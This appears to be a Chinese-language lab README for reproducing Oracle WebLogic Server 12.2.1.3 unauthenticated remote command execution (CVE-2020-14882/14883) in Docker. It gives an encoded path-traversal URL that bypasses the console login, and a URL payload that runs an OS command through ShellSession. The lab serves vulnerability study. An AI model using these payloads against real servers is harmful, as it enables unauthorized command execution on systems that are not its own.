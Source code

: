 # Oracle WebLogic Server 未授权远程命令执行漏洞
## 漏洞描述
Oracle WebLogic Server 未授权远程命令执行漏洞

version:12.2.1.3
## 启动
`docker-compose up -d`,访问`http://localhost:7001/console`
  
![1.jpg](1.jpg)  
## writeup  
CVE-2020-14882:  
  
`http://localhost:7001/console/css/%252e%252e%252fconsole.portal`  
  
访问该url即可绕过登录页  

CVE-2020-14883  

`http://localhost:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")`  

访问该url执行命令(无回显)  

## 复现结果
![2.jpg](2.jpg)  
![3.jpg](3.jpg)  
